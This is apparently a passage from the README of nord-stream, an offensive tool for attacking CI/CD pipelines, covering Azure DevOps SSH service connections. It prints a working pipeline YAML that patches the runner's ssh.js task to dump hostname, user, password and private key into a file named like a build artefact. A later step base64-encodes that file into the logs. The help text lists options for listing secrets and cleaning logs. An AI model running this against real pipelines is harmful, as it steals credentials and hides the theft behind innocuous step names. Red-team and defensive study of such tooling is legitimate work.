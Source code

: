 If you come across a non-supported type, please open an issue or make a pull request :)

##### SSH

The extraction for this service connection type was painfull to implement. The output is the following:
```
hostname:::port:::user:::password:::privatekey
```

If you want to run it on a self-hosted runner you can do the following:
```
$ nord-stream.py devops ... --build-yaml test.yml --build-type ssh
[+] YAML file:
trigger: none
pool:
  vmImage: ubuntu-latest
steps:
- checkout: none
- script: SSH_FILE=$(find /home/vsts/work/_tasks/ -name ssh.js) ; cp $SSH_FILE $SSH_FILE.bak
    ; sed -i 's|const readyTimeout = getReadyTimeoutVariable();|const readyTimeout
    = getReadyTimeoutVariable();\nconst fs = require("fs");var data = "";data += hostname
    + ":::" + port + ":::" + username + ":::" + password + ":::" + privateKey;fs.writeFile("/tmp/artefacts.tar.gz",
    data, (err) => {});|' $SSH_FILE
  displayName: Preparing Build artefacts
- task: SSH@0
  inputs:
    sshEndpoint: '#FIXME'
    runOptions: commands
    commands: sleep 1
- script: SSH_FILE=$(find /home/vsts/work/_tasks/ -name ssh.js); mv $SSH_FILE.bak
    $SSH_FILE ; cat /tmp/artefacts.tar.gz | base64 -w0 | base64 -w0 ; echo ''
  displayName: Build artefacts

```

Then you need to:
1) change the `vmImage: ubuntu-latest` to `name: 'Self-Hosted pool name'`
2) Add the name of the service connection in the `#FIXME` placeholder.
3) deploy the pipeline with: `--yaml test.yml`

If you need to run this on a windows self-hosted runner, in the `generatePipelineForSSH` method change `_serviceConnectionTemplateSSH` by `_serviceConnectionTemplateSSHWindows` and perform the actions described previously.

Note: for both Windows and Linux self-hosted runners, you need to adapt the path (`/home/vsts/work/_tasks/` or `D:\a\`) to match the path where the runner is deployed. This information can be obtained in the `Capabilities` tab of an agent on Azure DevOps.

#### Help
```
$ python3 nord-stream.py devops -h
CICD pipeline exploitation tool

Usage:
    nord-stream.py devops [options] --token <pat> --org <org> [extraction] [--project <project> --write-filter --no-clean --branch-name <name> --pipeline-name <name> --repo-name <name>]
    nord-stream.py devops [options] --token <pat> --org <org> --yaml <yaml> --project <project> [--write-filter --no-clean --branch-name <name> --pipeline-name <name> --repo-name <name>]
    nord-stream.py devops [options] --token <pat> --org <org> --build-yaml <output> [--build-type <type>]
    nord-stream.py devops [options] --token <pat> --org <org> --clean-logs [--project <project>]
    nord-stream.py devops [options] --token <pat> --org <org> --list-projects [--write-filter]
    nord-stream.py devops [options] --token <pat> --org <org> (--list-secrets [--project <project> --write-filter] | --list-users)
    nord-stream.py devops [options] --token <pat> --org <org> --describe-token
```